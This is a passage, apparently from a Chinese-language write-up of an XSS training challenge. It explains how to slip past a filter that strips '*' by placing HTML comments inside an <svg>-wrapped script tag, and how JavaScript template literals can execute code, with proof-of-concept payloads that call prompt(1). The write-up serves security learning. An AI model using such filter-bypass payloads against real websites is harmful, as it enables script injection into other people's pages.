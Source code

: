 
7的加强版，会过滤掉*。可以用`<svg>`标签构造关于<!\---->的注释。

<pre class="wp-block-code"><code>">&lt;svg>&lt;!--#-->&lt;script>&lt;!--#-->prompt(1&lt;!--#-->)&lt;/script>

">&lt;svg>&lt;!--#-->&lt;script>&lt;!--#-->prompt(1)&lt;/</code></pre>

模板字符串 知识点：  
1.反撇号字符 \` 代替普通字符串的引号 ' 或 "，提供了字符串插值功能。  
2.`${x}`被称为模板占位符，JavaScript 将把 x 的值插入到最终生成的字符串中，也就是说\`abcd${alert(1)}efgh\`是可以正常执行的。

<pre class="wp-block-code"><code>">&lt;script>`#${prompt(1)}#`&lt;/script></code></pre>

[1]: https://xzfile.aliyuncs.com/media/upload/picture/20190326141703-c618e428-4f8e-1.jpg
